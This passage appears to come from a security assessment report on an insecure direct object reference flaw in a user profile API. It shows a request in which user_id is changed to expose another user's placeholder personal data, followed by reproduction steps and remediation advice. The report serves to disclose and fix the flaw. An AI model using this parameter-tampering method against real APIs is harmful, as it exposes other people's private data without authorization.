 Response

```json
{
  "user_id": 1001,
  "full_name": "Alice Johnson",
  "email": "<alice@example.com>",
  "phone": "+1-555-0123",
  "billing_address": "123 Main St, Anytown, USA"
}
```

By modifying the user_id parameter to 1002:

Request (manipulated)

```http
GET /api/v1/user/profile?user_id=1002 HTTP/1.1
Host: app.companyname.com
Authorization: Bearer eyJhbGciOi...
```

Response (unauthorized data disclosure)

```json
{
  "user_id": 1002,
  "full_name": "Bob Smith",
  "email": "<bob@example.com>",
  "phone": "+1-555-0456",
  "billing_address": "456 Second St, Othertown, USA"
}
```

No server-side authorization checks were performed to verify that the
authenticated user should access the requested user_id.

#### Steps to Reproduce

1. Log in to the web application as a regular user (e.g., test account).
1. Intercept a request to the User Profile API using a proxy tool (e.g., Burp Suite, OWASP ZAP).
1. Locate the user_id parameter in the URL:
    /api/v1/user/profile?user_id=1001
1. Modify the user_id parameter to another value (e.g., user_id=1002).
1. Forward the modified request.
1. Observe that the server returns personal information for the user with ID 1002 without any authorization error.

#### Recommendation

- Implement proper object-level authorization checks on the server-side to ensure users can only access their own resources.
- Use the authenticated user context (e.g., user session or token) to determine the user identity, instead of accepting a user-controlled parameter.
- Regularly test APIs for broken access control vulnerabilities using automated and manual security testing.
- Consider adopting secure development practices following OWASP guidelines, such as OWASP API Security Top 10.
